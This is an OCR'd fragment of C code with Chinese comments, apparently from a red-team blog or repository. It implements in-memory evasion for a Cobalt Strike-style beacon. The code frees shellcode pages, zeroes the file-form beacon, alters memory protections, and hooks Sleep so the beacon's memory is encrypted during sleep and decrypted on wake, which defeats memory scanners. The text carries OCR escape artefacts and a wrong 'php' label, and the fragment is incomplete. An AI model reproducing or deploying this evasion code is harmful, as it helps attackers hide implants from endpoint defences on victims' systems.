 ```php
​  
    // 更新为已扫描内存  
    memoryInfo.isScanMemory \= TRUE;  
​  
    // 释放 shellcode 内存页  
    VirtualFree(memoryInfo.memoryPage\[0\].address, 0, MEM\_RELEASE);  
}  
​  
​  
/\*  
    beacon 运行时已经可以清除内存的其他痕迹了  
\*/  
void DeleteOther() {  
    //这里发现一个问题，memoryscan 之后，beacon 的地址不一定是在 filebeacon 之后，但是大小存在差异（拉伸后的 size 小于 file 的 size）;  
//所以这比较一下最后两个页，size 小的为拉伸后的 beacon，也就是需要加密的，size 大的为文件 beacon 直接初始化并修改内存属性为 rw；  
    MemoryAttrib beacon\_1 \= memoryInfo.memoryPage\[memoryInfo.index \- 2\];  
    MemoryAttrib beacon\_2 \= memoryInfo.memoryPage\[memoryInfo.index \- 1\];  
    //printf("beacon1.size : %d\\n", beacon\_1.size);  
    //printf("beacon2.size : %d\\n", beacon\_2.size);  
    if (beacon\_2.size \> beacon\_1.size) {  
        //printf("发生交换\\n");  
        MemoryAttrib beacon\_3 \= beacon\_2;  
        memoryInfo.memoryPage\[memoryInfo.index \- 1\] \= memoryInfo.memoryPage\[memoryInfo.index \- 2\];  
        memoryInfo.memoryPage\[memoryInfo.index \- 2\] \= beacon\_3;  
    }  
​  
​  
    printf("FileBeacon Address at 0x%p\\n", memoryInfo.memoryPage\[memoryInfo.index \- 2\].address);  
    printf("Beacon Address at 0x%p\\n", memoryInfo.memoryPage\[memoryInfo.index \- 1\].address);  
​  
​  
    MemoryAttrib Beacon\_org \= memoryInfo.memoryPage\[memoryInfo.index \- 2\];  
    DWORD org\_bufSize \= Beacon\_org.size;  
    RtlSecureZeroMemory(Beacon\_org.address, org\_bufSize); // 文件形式的 beacon 消除  
    DWORD oldProt;  
    VirtualProtect(Beacon\_org.address, Beacon\_org.size, PAGE\_READWRITE, &oldProt);// 修改内存属性  
    printf("文件形式beacon已清除 \\n");  

    //RtlSecureZeroMemory(memoryInfo.shellcodeaddress,memoryInfo.shellcodesize ); // 残留的 shellcode 消除  
    printf("shellcode 地址：%x\\n", memoryInfo.shellcodeaddress);  
    memoryInfo.iscleaned \= TRUE;  
​  
​  
}  
//自定义函数指针函数  
static void(WINAPI\* OldSleep)(DWORD dwMilliseconds) \= Sleep;  
​  
void WINAPI My\_Sleep(DWORD dwMilliseconds) {  
    printf("调用sleep，休眠时间：%d\\n", dwMilliseconds);  
    //printf("oldsleep，地址是：0x%x\\n", OldSleep);  
    if (!memoryInfo.isScanMemory)   //扫描的动作只用发生一次  
        ScanMemoryMap();  
    if (!memoryInfo.iscleaned)  //清除动作只发生一次  
        DeleteOther();  
    My\_Encrypt();  
    OldSleep(dwMilliseconds);  
    My\_Decrypt();  
}  
​  
​  
```